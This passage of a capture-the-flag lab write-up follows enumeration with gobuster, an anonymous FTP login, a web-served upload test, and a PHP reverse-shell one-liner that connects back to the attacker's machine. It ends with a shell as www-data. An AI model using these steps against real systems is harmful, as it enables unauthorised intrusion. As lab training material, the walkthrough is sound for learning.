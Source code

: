 ```
===============================================================
/files                (Status: 301) [Size: 310] [--> http://10.10.81.82/files/]
```


Based on the **gobuster** result, I start to check all directories.

*/files*

We have 3 items

ftp folder : Empty
picture "important.jpg" : not interresting
notice.txt : We found the name **Maya**. We probably use it later ^^

Now, let's try to access the ftp by using *user:anonymous* and *password:anonymous* 
```
ftp anonymous@[IP]
```

That works.
```
Connected to 10.10.81.82.
220 (vsFTPd 3.0.3)
331 Please specify the password.
Password:
230 Login successful.
ftp> ls
200 PORT command successful. Consider using PASV.
150 Here comes the directory listing.
drwxrwxrwx    2 65534    65534        4096 Nov 12  2020 ftp
-rw-r--r--    1 0        0          251631 Nov 12  2020 important.jpg
-rw-r--r--    1 0        0             208 Nov 12  2020 notice.txt
226 Directory send OK.
```

Now, let's try to upload something.
- First: Create a basic text file with efw words
- Second: Connect to the ftp
- Third: Move to ftp folder
- Fourth: Upload the text file
- Fifth: Check from the browser --> That works !!!!

After this quick test, we have an opportunity to send a reverse shell file to gain access.

- First : Create your reverse shell php file. 
```
php -r '$sock=fsockopen("[Local machine IP]",[PORT]);exec("/bin/sh -i <&3 >&3 2>&3");'
```
- Second : Upload the file into **ftp** folder
- Third : Start a listener with the correct Port
- Fourth: Execute the script

```
$ whoami
www-data
$ ls -l
total 92
drwxr-xr-x   2 root     root      4096 Sep 25  2020 bin
drwxr-xr-x   3 root     root      4096 Sep 25  2020 boot
drwxr-xr-x  16 root     root      3560 Dec 15 00:46 dev
drwxr-xr-x  96 root     root      4096 Nov 12  2020 etc
drwxr-xr-x   3 root     root      4096 Nov 12  2020 home
drwxr-xr-x   2 www-data www-data  4096 Nov 12  2020 incidents
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img -> boot/initrd.img-4.4.0-190-generic
lrwxrwxrwx   1 root     root        33 Sep 25  2020 initrd.img.old -> boot/initrd.img-4.4.0-190-generic
drwxr-xr-x  22 root     root      4096 Sep 25  2020 lib
drwxr-xr-x   2 root     root      4096 Sep 25  2020 lib64
```